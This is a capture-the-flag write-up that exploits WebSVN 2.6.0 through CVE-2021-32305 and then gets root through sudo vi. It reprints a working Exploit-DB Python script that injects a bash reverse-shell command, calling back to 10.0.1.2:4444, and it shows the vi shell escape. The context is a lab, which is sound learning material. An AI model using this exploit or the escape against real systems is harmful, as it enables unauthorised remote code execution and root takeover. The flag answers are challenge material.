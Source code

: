 # WebSVN

As the name suggests, there is a WebSVN server running on the machine.

![](screenshots/1.png)

```
Powered by WebSVN 2.6.0 and Apache Subversion 1.14.2
```

The version has a known vulnerability, `CVE-2021-32305`. <https://www.exploit-db.com/exploits/50042>, [50042.py](workdir/50042.py) .

```python
# Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
# Date: 20/06/2021
# Exploit Author: g0ldm45k
# Vendor Homepage: https://websvnphp.github.io/
# Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
# Version: 2.6.0
# Tested on: Docker + Debian GNU/Linux (Buster)
# CVE : CVE-2021-32305

import requests
import argparse
from urllib.parse import quote_plus

PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/10.0.1.2/4444 0>&1'"
REQUEST_PAYLOAD = '/search.php?search=";{};"'

parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
parser.add_argument('target', type=str, help="Target URL.")

args = parser.parse_args()

if args.target.startswith("http://") or args.target.startswith("https://"):
    target = args.target
else:
    print("[!] Target should start with either http:// or https://")
    exit()

requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

print("[*] Request send. Did you get what you wanted?")
```

![](screenshots/2.png)

# Flag 1
flag{off_1_7b0f0f2d08a0c77baee541b00cbcf3d4}

# Privesc

Checking [sudo](https://linux.die.net/man/8/sudo), the current `apache` can run [vi](https://linux.die.net/man/1/vi).

```bash
sudo -l
```

![](screenshots/3.png)

The `vi` process is running as `root` this way, which is trivial to escape.

A vi így rootként fut, melyből triviális parancsokat futtatni.

```
:!/bin/bash 
```

![](screenshots/4.png)

# Flag 2
flag{off_2_c80872811fde160d6f44e6a8f062df60}
